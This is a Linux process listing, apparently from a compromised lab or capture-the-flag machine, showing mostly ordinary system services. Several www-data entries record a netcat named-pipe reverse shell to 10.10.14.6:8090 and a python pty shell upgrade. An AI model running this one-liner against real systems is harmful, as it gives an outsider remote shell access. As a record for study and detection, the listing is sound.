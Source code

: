 ```sh
root       246  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_29]
root       247  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_30]
root       248  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_30]
root       249  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_31]
root       250  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_31]
root       277  0.0  0.0      0     0 ?        S    Jan25   0:01 [kworker/u2:30]
root       279  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       280  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       281  0.0  0.0      0     0 ?        S    Jan25   0:01 [kworker/u2:32]
root       286  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/0:1H]
root       354  0.0  0.0      0     0 ?        S<   Jan25   0:00 [raid5wq]
root       389  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       417  0.0  0.0      0     0 ?        S    Jan25   0:00 [jbd2/sda1-8]
root       418  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ext4-rsv-conver]
www-data   447  0.0  1.2 270656 13004 ?        S    02:13   0:00 /usr/sbin/apache2 -k start
root       484  0.0  0.2  28464  2988 ?        Ss   Jan25   0:00 /lib/systemd/systemd-journald
root       487  0.0  0.0      0     0 ?        S    Jan25   0:00 [kauditd]
root       494  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iscsi_eh]
root       507  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_addr]
root       513  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_mcast]
root       517  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_nl_sa_wq]
root       521  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_cm]
root       522  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iw_cm_wq]
root       523  0.0  0.0      0     0 ?        S<   Jan25   0:00 [rdma_cm]
root       527  0.0  0.1  94776  1628 ?        Ss   Jan25   0:00 /sbin/lvmetad -f
root       541  0.0  0.3  44692  4012 ?        Ss   Jan25   0:00 /lib/systemd/systemd-udevd
systemd+   616  0.0  0.2 100328  2392 ?        Ssl  Jan25   0:01 /lib/systemd/systemd-timesyncd
root       921  0.0  0.0   5228   160 ?        Ss   Jan25   0:00 /sbin/iscsid
root       922  0.0  0.3   5728  3524 ?        S<Ls Jan25   0:02 /sbin/iscsid
root      1088  0.0  2.0 263820 20616 ?        Ssl  Jan25   0:00 /usr/lib/snapd/snapd
daemon    1089  0.0  0.1  26048  2008 ?        Ss   Jan25   0:00 /usr/sbin/atd -f
root      1103  0.0  0.2  29012  2728 ?        Ss   Jan25   0:00 /usr/sbin/cron -f
root      1105  0.0  0.7 275772  8036 ?        Ssl  Jan25   0:00 /usr/lib/accountsservice/accounts-daemon
message+  1113  0.0  0.3  42896  3592 ?        Ss   Jan25   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root      1140  0.0  0.5  65524  5228 ?        Ss   Jan25   0:00 /usr/sbin/sshd -D
root      1152  0.0  0.1   4404  1296 ?        Ss   Jan25   0:00 /usr/sbin/acpid
root      1153  0.3  0.5 636888  5672 ?        Ssl  Jan25   2:44 /usr/bin/lxcfs /var/lib/lxcfs/
syslog    1158  0.0  0.3 256404  3072 ?        Ssl  Jan25   0:00 /usr/sbin/rsyslogd -n
root      1171  0.0  0.9 185740  9812 ?        Ssl  Jan25   0:20 /usr/bin/vmtoolsd
root      1172  0.0  0.1  20104  1280 ?        Ss   Jan25   0:00 /lib/systemd/systemd-logind
root      1215  0.0  0.5 277184  5780 ?        Ssl  Jan25   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1234  0.0  0.1  15944  1620 tty1     Ss+  Jan25   0:00 /sbin/agetty --noclear tty1 linux
root      1245  0.9  0.2   8756  2228 ?        Ss   Jan25   6:55 /usr/sbin/knockd -d -i ens33
root      1254  0.0  0.0  13380   172 ?        Ss   Jan25   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root      1399  0.0  2.5 270376 25612 ?        Ss   Jan25   0:02 /usr/sbin/apache2 -k start
www-data  2409  0.0  0.0   4512   784 ?        S    02:15   0:00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8090 >/tmp/f
www-data  2412  0.0  0.0   4540   836 ?        S    02:15   0:00 cat /tmp/f
www-data  2413  0.0  0.0   4512   764 ?        S    02:15   0:00 /bin/sh -i
www-data  2414  0.0  0.1  11308  1732 ?        S    02:15   0:00 nc 10.10.14.6 8090
www-data  3373  0.1  1.0 270460 11148 ?        S    02:16   0:00 /usr/sbin/apache2 -k start
www-data  4344  0.0  0.8  35840  8484 ?        S    02:17   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data  4345  0.0  0.3  18220  3272 pts/0    Ss   02:17   0:00 /bin/bash
www-data  6266  0.1  1.0 270460 11148 ?        S    02:19   0:00 /usr/sbin/apache2 -k start
www-data  6268  0.1  1.1 270460 11188 ?        S    02:19   0:00 /usr/sbin/apache2 -k start
root      7208  0.0  0.0      0     0 ?        S    Jan25   0:13 [kworker/0:1]
www-data  7230  0.1  1.1 270460 11208 ?        S    02:20   0:00 /usr/sbin/apache2 -k start
www-data  7231  0.1  1.1 270460 11208 ?        S    02:20   0:00 /usr/sbin/apache2 -k start
```
